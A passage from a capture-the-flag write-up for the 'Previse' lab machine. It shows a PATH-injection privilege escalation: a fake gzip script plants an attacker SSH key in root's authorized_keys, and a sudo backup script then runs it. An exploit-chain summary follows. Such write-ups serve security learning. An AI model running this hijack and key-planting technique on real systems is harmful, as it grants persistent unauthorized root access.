**Path Injection**: Since the `gzip` is a relative path, change PATH variable so the program would seek the wanted path first with our customized `gzip` executable file.

```console
m4lwhere@previse:/dev/shm$ cat gzip
#!/bin/bash
mkdir -p /root/.ssh
echo 'ssh-rsa AAAA...CkbPE= qwe@kali' >> /root/.ssh/authorized_keys
m4lwhere@previse:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
m4lwhere@previse:/dev/shm$ export PATH=.:$PATH
m4lwhere@previse:/dev/shm$ sudo /opt/scripts/access_backup.sh
```

```console
└─╼$ ssh root@$IP
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)
...
root@previse:~# id
uid=0(root) gid=0(root) groups=0(root)
root@previse:~# uname -a
Linux previse 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> EAR to create a new user -> download sitebackup.zip and discover command injection -> www-data shell -> mysql conn with hash value -> crack to get a password -> ssh to get m4lwhere shell -> enum root -> PATH injection -> insert pub key into root's authorized_keys -> root shell

### Beyond Root

What is **EAR** (Execution After Redirect)?

